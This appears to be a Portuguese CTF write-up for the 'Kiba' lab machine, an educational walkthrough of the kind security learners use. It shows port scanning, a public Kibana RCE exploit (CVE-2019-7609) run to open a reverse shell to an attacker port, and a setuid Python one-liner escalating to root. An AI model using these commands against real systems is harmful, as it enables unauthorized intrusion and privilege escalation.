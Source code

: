 # Kiba

* ### Scan de portas - Verificando quais portas estão abertas.

```bash
rustscan -a 10.10.0.81
```
![image](https://github.com/lufffe/Writeups/assets/90646635/faf56563-dd08-4802-8e81-ac2e3b52315f)

![image](https://github.com/lufffe/Writeups/assets/90646635/53c0174f-da66-48aa-979b-0d43b8d7bdad)

* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 22,80,5044,5601 10.10.0.81
```
![image](https://github.com/lufffe/Writeups/assets/90646635/402636d0-e7bb-4d61-8ddf-5a84c01d75ac)

* ### Verificando o que roda na porta 5601
![image](https://github.com/lufffe/Writeups/assets/90646635/64849b76-3d7b-4138-b1af-c92d4edf81c7)

* ### Procurando um exploit para o Kibana.
https://github.com/LandGrey/CVE-2019-7609

```bash
git clone https://github.com/LandGrey/CVE-2019-7609.git
```

```bash
python CVE-2019-7609-kibana-rce.py
```
![image](https://github.com/lufffe/Writeups/assets/90646635/6a686632-a740-41f8-9c38-0e54dfd637af)

* ### Pegando uma reverse shell pelo Kibana.
```bash
python2.7 CVE-2019-7609-kibana-rce.py -u http://10.10.0.81:5601/ -host IP -port 4455 --shell
```
![image](https://github.com/lufffe/Writeups/assets/90646635/7ee14eb2-938b-41c8-b0b9-753c90c10c3c)

![image](https://github.com/lufffe/Writeups/assets/90646635/de86f28c-000c-43b9-acce-92466073cd29)

![image](https://github.com/lufffe/Writeups/assets/90646635/7f9a0979-003c-4ace-a803-6f6187d7aa8a)

* ### Flag User.
```bash
kiba@ubuntu:/home/kiba$ cat user.txt
```


```bash
kiba@ubuntu:/home/kiba$ getcap -r / 2>/dev/null
```
![image](https://github.com/lufffe/Writeups/assets/90646635/6d17ac7a-ce2d-49e6-ba5a-2c97bac35b26)

* ### GtFobins.
![image](https://github.com/lufffe/Writeups/assets/90646635/a9bf60f5-d3b8-4413-95f6-8e55f00ef0bf)

```bash
kiba@ubuntu:/home/kiba$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
![image](https://github.com/lufffe/Writeups/assets/90646635/00ff7334-fbb6-4a8d-95b5-d7ea042e2e92)

* ### Flag Root.
```bash
cat /root/root.txt
```
